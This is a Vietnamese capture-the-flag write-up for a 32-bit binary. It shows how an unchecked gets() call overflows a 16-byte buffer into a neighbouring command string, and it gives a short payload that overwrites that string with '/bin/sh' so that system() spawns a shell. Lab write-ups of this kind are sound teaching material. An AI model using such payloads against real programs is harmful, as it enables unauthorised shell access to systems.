

# Bufferoverflow-overwrite-command

# 1. Xem thông tin file

Ta sẽ dùng lệnh `file` để xem thông tin file challenge:
```
Bufferoverflow-overwrite-command: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=3e7651a0dfe9c28f279a4af51940336dc92be421, not stripped
```
Đây là file 32-bit không bị ẩn tên hàm.

Tiếp đến ta sẽ sử dụng ida-pro-32bit

Ở đây có 1 hàm ta cần quan tâm đến do ở main gọi luôn đến hàm này:


# 2. Ý tưởng

Đầu tiên, câu lệnh:

```
strcpy(command, "echo Bye!");
```
Dùng để copy chuỗi `echo Bye!` vào biến `command`

Sau đó, chương trình gọi hàm `gets(s);` đến gán giá trị cho biến `s`

Cuối cùng trả về hàm thực thi `system(command);`

Ở đây ta có hàm `gets()` luôn gây lỗi buffer overflow do không kiểm soát được số lượng ký tự đầu vào

Mà địa chỉ các biến như sau:

```
char s[16]; // [esp+0h] [ebp-28h]
char command[10]; // [esp+10h] [ebp-18h]
```

Có thể thấy địa chỉ biến `command` nằm ngay sau biến `s` nên ta có thể lợi dụng lỗi buffer overflow để ghi đè vào biến `command` để sau khi chương trình return sẽ retrun đến câu lệnh system với `command` như ta muốn

# 3. Khai thác

Ok như đã biết, biến `s` cách `command` 16 bytes nên chuỗi khai thác sẽ là:

+ 16 bytes đầu là địa chỉ biến `s`
+ các bytes còn lại là đị chỉ của `command`

Ở đây mình sẽ ghi đè `command` bằng `/bin/sh` để thực thi `system('/bin/sh')`

```
/bin/sh là đường dẫn tới một trình thông dịch (interpreter) shell trên hệ điều hành Unix và các hệ điều hành tương thích. Shell là một chương trình dòng lệnh môi trường (command-line interface) cho phép người dùng tương tác với hệ thống máy tính bằng cách gõ lệnh.
```

Mã khai thác ở đây:

```
payload = b'a'*16 + b'/bin/sh'
p.sendline(payload)
```

